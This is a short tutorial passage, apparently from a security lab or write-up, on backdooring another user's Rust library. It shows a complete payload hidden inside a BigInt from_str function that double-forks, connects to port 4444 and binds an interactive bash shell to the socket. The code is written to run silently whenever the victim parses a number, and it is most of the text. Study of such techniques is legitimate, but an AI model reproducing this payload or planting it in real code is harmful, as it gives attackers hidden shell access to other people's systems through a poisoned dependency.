 # Launch a Reverse Shell

Instead of writing a meaningless message from the source code, we'll write a payload that will spawn a reverse shell.

From a user other than the one targeting, enter the previously selected method's source code and place the following code:

```

#[inline]
fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
    static mut IN: bool = false;
    unsafe {
        // Check we are not spawning multiple reverse shells
        if !IN {
            IN = true;
            let pid = fork();
            // let the child spawn the reverse shell
            if pid == 0 {
                // perform fork-decouple-fork (a.k.a double fork)
                // this is important so that you avoid receiving a SIGTTIN that would send to the background the target user's program
                let pid_child = fork();
                if pid_child > 0 { std::process::exit(0) }
                setsid();
                let pid_gchild = fork();
                if pid_gchild > 0 {std::process::exit(0)}
                let sock = TcpStream::connect("localhost:4444").unwrap();
                let fd = sock.as_raw_fd();
                Command::new("/bin/bash")
                    .arg("-i")
                    .stdin(unsafe { Stdio::from_raw_fd(fd) })
                    .stdout(unsafe { Stdio::from_raw_fd(fd) })
                    .stderr(unsafe { Stdio::from_raw_fd(fd) })
                    .spawn()
                    .unwrap()
                    .wait()
                    .unwrap();
                std::process::exit(0);
            }
        }
    }
    BigInt::from_str_radix(s, 10)
}

```